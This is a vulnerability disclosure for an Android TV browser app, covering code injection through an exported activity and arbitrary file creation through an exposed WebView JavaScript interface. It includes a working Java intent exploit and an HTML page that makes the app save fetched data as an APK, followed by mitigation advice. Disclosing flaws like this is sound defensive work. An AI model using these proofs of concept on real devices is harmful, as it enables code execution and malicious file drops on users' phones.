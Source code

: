 

---

### Vulnerability Report: Code Injection (CWE-94) & Arbitrary File Creation

#### Overview:
The `com.altamirano.fabricio.tvbrowser.MainActivity` activity is exported and can be invoked by third-party applications, exposing the app to potential attacks.

#### Affected Component:
- Component: `com.altamirano.fabricio.tvbrowser.MainActivity`

#### Code Injection Details:
An attacker can invoke the `MainActivity` of the `com.altamirano.fabricio.tvbrowser` app by sending an explicit intent. When a crafted URL containing malicious JavaScript is passed to the WebView, the code is executed within the app's context.

**Proof of Concept (Code Injection):**
```java
package your.own.package;

import android.content.ComponentName;
import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;
import androidx.appcompat.app.AppCompatActivity;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        // Launch the JavaScript code via intent
        launchBrowser();
    }

    public void launchBrowser() {
        // Constructing the JavaScript code to directly invoke the exposed JavaScript interface method.
        String base64TestData = "VGhpcyBpcyBhIHRlc3QgZm9yIHRoZSB2dWxuZXJhYmlsaXR5IFBvQy4="; // Represents "This is a test for the vulnerability PoC."
        String jsCode = String.format("javascript:if(window.Android && typeof window.Android.getBase64FromBlobData === 'function'){ window.Android.getBase64FromBlobData('data:text/plain;base64,%s', 'test.txt'); }", base64TestData);

        Intent intent = new Intent(Intent.ACTION_VIEW);
        intent.setComponent(new ComponentName("com.altamirano.fabricio.tvbrowser", "com.altamirano.fabricio.tvbrowser.MainActivity"));
        intent.setData(Uri.parse(jsCode));
        startActivity(intent);
    }
}

```

---

#### Arbitrary File Creation via JavaScript Interface Exposure:
The `MainActivity`'s WebView exposes certain JavaScript interfaces to web content. This exposes the app to arbitrary file creation vulnerabilities.

**Proof of Concept (Arbitrary File Creation):**
```javascript

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Vulnerability Demo - test.html</title>
</head>
<body>
    <h1>Vulnerability Test Page</h1>
    <p>This page will automatically invoke the exposed JavaScript interface.</p>

    <script>
        document.addEventListener("DOMContentLoaded", function() {
            fetchAndDownloadAPKData();
        });

        function fetchAndDownloadAPKData() {
            fetch('/base64.txt')
                .then(response => response.text())
                .then(data => {
                    let base64data = "data:application/octet-stream;base64," + data.trim();
                    let filename = "fetched_file.apk"; 

                    if (window.Android && typeof window.Android.getBase64FromBlobData === "function") {
                        window.Android.getBase64FromBlobData(base64data, filename);
                    } else {
                        alert("Android interface not available for download");
                    }
                })
                .catch(error => {
                    console.error("There was an error fetching the data:", error);
                    alert("Error fetching base64 data.");
                });
        }
    </script>
</body>
</html>

```

---

#### Recommendations:
1. **Limit WebView Exposure:** Remove the exported status of activities containing a WebView or restrict them using intent filters.
2. **Validate URLs:** Ensure that URLs loaded in a WebView are validated and sanitized.
3. **Use JavaScript Safely:** Limit JavaScript access within the WebView. If required, only whitelist trusted scripts and sources.
4. **Restrict File Operations:** Ensure the exposed JavaScript interfaces don't grant unintended file permissions or access.

#### References:
- [CWE-94: Improper Control of Generation of Code ('Code Injection')](https://cwe.mitre.org/data/definitions/94.html)
- [CWE-23: Relative Path Traversal](https://cwe.mitre.org/data/definitions/23.html)

---

